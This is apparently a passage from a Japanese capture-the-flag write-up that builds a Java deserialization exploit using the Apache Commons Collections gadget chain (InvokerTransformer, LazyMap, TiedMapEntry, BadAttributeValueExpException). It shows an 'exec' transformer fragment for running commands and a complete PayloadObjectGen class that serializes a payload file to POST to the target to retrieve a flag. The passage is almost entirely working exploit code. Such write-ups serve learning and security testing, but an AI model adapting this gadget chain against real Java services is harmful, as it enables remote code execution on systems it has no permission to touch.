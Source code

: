```java
				new InvokerTransformer("exec",
					new Class[] { String.class }, execArgs),
				new ConstantTransformer(1) };
```
以下は`Flag.getFlag()`のイメージ？  
```java
        final Transformer[] transformers = new Transformer[] { new ConstantTransformer(Flag.class),
                new InvokerTransformer("getMethod", new Class[] { String.class, Class[].class },
                        new Object[] { "getFlag", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] { Object.class, Object[].class },
                        new Object[] { null, new Object[0] }),
                new ConstantTransformer(1) };
```
最終的なExploitは以下。これを実行して、`Payload.ser`をPOSTするとerrorが発生してFlagゲットらしい。  
```java
package com.trendmicro;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;
import javax.management.BadAttributeValueExpException;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import com.trendmicro.jail.Flag;
public class PayloadObjectGen {
    public static void main(String args[]) throws Exception {
        String path = "Payload.ser";
        FileOutputStream fout = new FileOutputStream(path);
        ObjectOutputStream oos = new ObjectOutputStream(fout);
        oos.writeObject(getObject());
        oos.close();
        FileInputStream fis = new FileInputStream(path);
        ObjectInputStream ois = new ObjectInputStream(fis);
        String nameFromDisk = (String) ois.readObject();
        System.out.println(nameFromDisk);
        ois.close();
    }
    public static BadAttributeValueExpException getObject() throws Exception {
        final Transformer transformerChain = new ChainedTransformer(new Transformer[] { new ConstantTransformer(1) });
        final Transformer[] transformers = new Transformer[] { new ConstantTransformer(Flag.class),
                new InvokerTransformer("getMethod", new Class[] { String.class, Class[].class },
                        new Object[] { "getFlag", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] { Object.class, Object[].class },
                        new Object[] { null, new Object[0] }),
                new ConstantTransformer(1) };
        final Map innerMap = new HashMap();
        final Map lazyMap = LazyMap.decorate(innerMap, transformerChain);
        TiedMapEntry entry = new TiedMapEntry(lazyMap, "foo");
        BadAttributeValueExpException val = new BadAttributeValueExpException(null);
        Field valfield = val.getClass().getDeclaredField("val");
        valfield.setAccessible(true);
        valfield.set(val, entry);
        Reflections.setFieldValue(transformerChain, "iTransformers", transformers);
        return val;
    }
}
```